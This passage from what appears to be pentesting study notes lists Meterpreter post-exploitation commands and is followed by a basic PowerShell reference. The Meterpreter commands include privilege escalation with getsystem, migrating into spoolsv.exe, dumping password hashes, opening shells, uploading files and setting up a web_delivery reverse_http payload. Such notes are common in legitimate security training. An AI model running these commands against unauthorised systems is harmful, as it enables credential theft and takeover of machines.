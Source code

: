 - migrate to other process

  ```bash
  meterpreter > getuid
  meterpreter > getsystem
  meterpreter > ps
  meterpreter > migrate <process ID>      
  ```

  spoolsv.exe is a good option

- dump hashes

  ```bash
  meterpreter > hashdump
  ```

  passwords are also often stored at C:\Windows\System32\config

- powershell

  ```bash
  meterpreter > load powershell
  meterpreter > powershell_shell
  ```

- shell

  ```bash
  meterpreter > shell
  ```

- upload files

  ```bash
  meterpreter > upload <file>
  ```

- Send shell

  use "exploit/multi/script/web_delivery" and payload "windows/meterpreter/reverse_http", set target as 2

  

### PowerShell

`Verb-Noun`, Ex. `Get-Help Command-Name -examples`, `Get-Command New-*`

View members for Get-Command: `Get-Command | Get-Member -MemberType Method`

Create objects: `Get-ChildItem | Select-Object -Property Mode, Name`

Filter object: `Get-Service | Where-Object -Property Status -operator Stopped`

Sort objects: `Get-ChildItem | Sort-Object`

Find file: `Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue`

Show contents of file: `Get-Content *interesting-file.txt*`

Show Users: `Get-LocalUser`
